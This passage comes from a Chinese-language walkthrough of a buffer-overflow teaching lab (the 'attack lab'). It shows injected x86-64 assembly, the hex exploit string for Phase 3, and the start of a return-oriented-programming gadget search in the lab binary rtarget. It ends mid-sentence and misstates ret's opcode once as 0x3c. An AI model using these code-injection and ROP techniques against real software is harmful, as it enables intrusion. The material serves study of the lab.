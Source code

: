 不过遗憾的是这样编译出来的代码太大，超过了 40 字节，导致后面无法再篡改返回值地址了

观察 x86-64 指令的编码，如果直接指定内存的地址，那么会直接占用 8 字节，而如果是根据寄存器 + 偏移进行寻址的话编码大小会少一些

目前比较好控制的寄存器就是 `%rsp` 了，当跳到我们注入的代码之后，此时 `%rsp` 指向 test 函数的栈顶，我们考虑把数据直接注入到 `%rsp` 上

```assembly
    movq $0x6166373939623935, %r8
    movq %r8, (%rsp)
    movq $0x00, 8(%rsp)
    movq %rsp, %rdi
    add $-8, %rsp
    movq $0x004018fa, (%rsp)
    ret
```

构造：

```
00 49 b8 35 39 62 39 39 37 66 61 4c 89 04 24 48 c7 44 24 08 00 00 00 00 48 89 e7 48 83 c4 f8 48 c7 04 24 fa 18 40 00 c3
79 dc 61 55
0a
```

通过

### Phase 4

从这个 phase 开始，我们需要一个新的被称为 ROP 的攻击手段。任务指导书中介绍了这个手段。

大概就是，如果程序的栈地址是随机化的，且栈所处的内存被记为不可执行，那么前面的代码注入的方法就行不通了，甚至使用 nop sled 都无法发挥作用。ROP 考虑利用现有的代码，汇编指令都是一个一个放置的，只有我们找对了第一个指令的起始地址，那么后续指令就会一个一个跟着执行，但是如果我们截取现有代码中的一部分指令，比如从一个完整的指令中间开始解码指令，有可能就能得到我们想执行的恶意代码。一般我们需要反编译程序然后找到这种指令的首地址。我们可能更倾向于找最后是 `0xc3` 结尾的部分，因为 `0x3c` 在 x86-64 中是 `ret` 指令，这样的话我们可以在执行一部分恶意代码之后跳到下一个地方执行恶意代码。

![](http://pic.caiwen.work/i/2025/07/21/687e2ad501bd7.png)

本次 lab 为了简单起见，要攻击的程序 `rtarget` 里面有很多奇怪函数，目的是暴露潜在的恶意指令，方便我们攻击。并且任务指导书中划定了寻找可以利用的指令的范围。

Phase 4 需要我们像 Phase 2 那样进行攻击，大概就是我们需要寻找可以利用的指令，这些指令可以调用 touch2 并传递一个参数

要注入数据的话，直接从现有指定中找应该是几乎不可能的。不过指导书里有一个提示，我们可以考虑利用 `pop` 指令，这个可以把当前栈顶数据弹到寄存器，而栈顶的元素我们是可以自己去设置的

那么我们现在要寻找的目标是一个 `pop %rdi` 或者是 `pop` 后再 `mov` 到 `%rdi`

指令对应的字节如下：

![](http://pic.caiwen.work/i/2025/07/21/687e2e6979daf.png)

首先是这里

```text
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

`58` 是 `popq %rax`，可以让我们的数据传到 `%rax` 中，后续的 `90` 是 `nop`，而
